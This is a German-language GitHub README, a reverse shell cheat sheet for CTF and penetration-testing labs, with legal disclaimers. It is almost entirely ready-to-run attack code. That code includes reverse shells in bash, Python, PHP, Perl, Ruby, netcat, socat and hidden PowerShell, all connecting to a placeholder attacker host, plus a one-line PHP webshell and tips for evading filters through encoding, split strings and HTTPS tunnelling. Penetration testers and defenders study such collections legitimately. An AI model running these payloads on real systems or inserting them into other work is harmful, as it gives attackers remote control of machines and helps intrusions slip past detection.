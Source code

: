 # 🌀 Reverse Shell Cheat Sheet

Diese Datei enthält eine praktische Übersicht gängiger Reverse Shells für verschiedene Programmiersprachen und Tools. Sie dient ausschließlich Schulungs- und Übungszwecken (z. B. in legalen CTFs oder Penetration-Testing-Labs) und richtet sich an White-Hat-Hacker.

> ⚠️ **Haftungsausschluss:** Diese Inhalte sind *nur* für Bildungs- und Forschungskontexte gedacht. Der Missbrauch dieser Techniken ist illegal und strafbar.

---

## 🖥️ Listener vorbereiten

```bash
nc -lvnp 4444        # klassischer Netcat Listener
rlwrap nc -lvnp 4444 # mit Kommandozeilen-History
ncat -lvnp 4444      # Ncat von Nmap
```

---

## 🐚 Bash Reverse Shell

```bash
bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1
```

```bash
/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1'
```

---

## 🐍 Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("ATTACKER-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

Alternative für Python3:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("ATTACKER-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

---

## 🐘 PHP Reverse Shell

```php
php -r '$sock=fsockopen("ATTACKER-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Oder als Webshell-Datei:

```php
<?php system($_GET['cmd']); ?>
```

---

## 🐪 Perl Reverse Shell

```perl
perl -e 'use Socket;$i="ATTACKER-IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

## 💎 Ruby Reverse Shell

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("ATTACKER-IP",4444);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

## 🐚 Netcat (nc) Reverse Shell

```bash
nc -e /bin/sh ATTACKER-IP 4444           # funktioniert nur mit "klassischem" nc
ncat ATTACKER-IP 4444 -e /bin/bash       # funktioniert mit Ncat (von Nmap)
```

Wenn `-e` nicht verfügbar:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER-IP 4444 > /tmp/f
```

---

## ⚙️ Socat Reverse Shell

**Auf dem Angreifer (Listener):**

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**Auf dem Zielsystem:**

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER-IP:4444
```

---

## 🪟 PowerShell Reverse Shell (Windows)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ATTACKER-IP",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

---

## 📌 Tipps zur Anwendung

* ⚠️ **Immer Encoding & Obfuscation bedenken** – viele Filter blockieren bekannte Strings.
* ✏️ Verwende `base64`, URL-Encoding oder zerteilte Zeichenketten zur Umgehung.
* 🔄 Teste auch verschiedene Ports (4444, 1337, 8080 etc.)
* 🔥 Nutze HTTP-Tunnel oder HTTPS für verschleierten Verkehr (z. B. mit `reGeorg`, `chisel`, `frp`).

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay safe – use it ethically! 🛡️

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!


---

## 📚 Quellen & Tools

* [Reverse Shells – PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet)
* [GTFOBins](https://gtfobins.github.io/)
* [LOLBAS](https://lolbas-project.github.io/)

---


